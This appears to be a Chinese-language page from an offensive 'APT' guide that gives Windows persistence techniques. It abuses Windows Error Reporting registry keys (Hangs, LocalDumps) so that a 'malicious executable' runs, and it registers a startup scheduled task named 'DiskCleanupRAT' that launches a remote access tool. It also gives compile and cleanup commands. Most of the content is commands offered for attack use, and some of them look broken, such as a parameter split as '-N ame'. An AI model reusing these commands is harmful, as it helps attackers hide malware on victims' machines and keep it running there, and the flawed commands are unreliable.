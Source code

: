 ### Windows错误报告

+ HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs
+ HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\Windows Error Reporting\LocalDumps

```Bash
WerFault.exe -pr 0-9
```

[werfault.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Per/werfault.cpp)

```Bash
x86_64-w64-mingw32-g++ -O2 werfault.cpp -o werfault.exe -I /usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

```powershell
werfault.exe
reg query "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs" /s
Remove-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs" -N ame "ReflectDebugger"和Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "WOLF"
```

```powershell
//注册表
reg add "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\LocalDumps" /v DumpType /t REG_DWORD /d 2 /f
reg add "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\LocalDumps" /v DumpCount /t REG_DWORD /d 10 /f
reg add "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\LocalDumps" /v DumpFolder /t REG_SZ /d "C:\Path\To\Dump" /f
reg add "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\LocalDumps" /v DumpPath /t REG_SZ /d "恶意可执行程序路径" /f

//PowerShell
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\Windows Error Reporting\LocalDumps" -Name "DumpType" -Value 2
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\Windows Error Reporting\LocalDumps" -Name "DumpCount" -Value 10
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\Windows Error Reporting\LocalDumps" -Name "DumpFolder" -Value "C:\Path\To\Dump"
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\Windows Error Reporting\LocalDumps" -Name "DumpPath" -Value 恶意可执行程序路径
```

### 磁盘清理

1、创建计划任务

```powershell
# 定义恶意程序路径
$maliciousPath = "恶意程序路径"

# 创建计划任务以在磁盘清理时执行恶意程序
$action = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c start /min $maliciousPath"
$trigger = New-ScheduledTaskTrigger -AtStartup
$task = New-ScheduledTask -Action $action -Trigger $trigger -Description "Run RAT on Disk Cleanup"
Register-ScheduledTask -TaskName "DiskCleanupRAT" -InputObject $task
```
